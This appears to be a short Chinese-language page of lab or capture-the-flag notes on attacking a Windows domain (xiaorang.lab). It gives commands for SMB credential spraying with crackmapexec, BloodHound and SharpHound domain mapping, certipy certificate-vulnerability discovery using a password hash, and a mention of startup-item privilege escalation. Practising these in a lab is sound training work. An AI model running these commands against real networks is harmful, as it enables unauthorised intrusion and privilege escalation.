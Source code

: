 
* 有账户时批量探测  `proxychains crackmapexec smb 172.22.17.6 -u chen -p chen@0813`

# 进入域后, 某一点攻击成功后, bloodhound

```sh
proxychains bloodhound-python -d xiaorang.lab -u yangdming -p kier@n10 -gc dc.xiaorang.lab -c all
## 或 SharpHound
SharpHound.exe --ldapusername yangdming --ldappassword kier@n10 -c all
```

配置一下hosts：

```sh
172.22.61.17 xiaorang.lab
172.22.61.17 dc.xiaorang.lab
```

### certipy 证书探测

```sh
proxychains certipy find -u win2012\$@xiaorang.lab -hashes 00000000000000000000000000000000:41a258d72365350640270508748c9675 -dc-ip 172.22.61.17 -vulnerable
cat 20231030050124_Certipy.txt
```

## 常见提权

* 启动项提权, addUser.bat
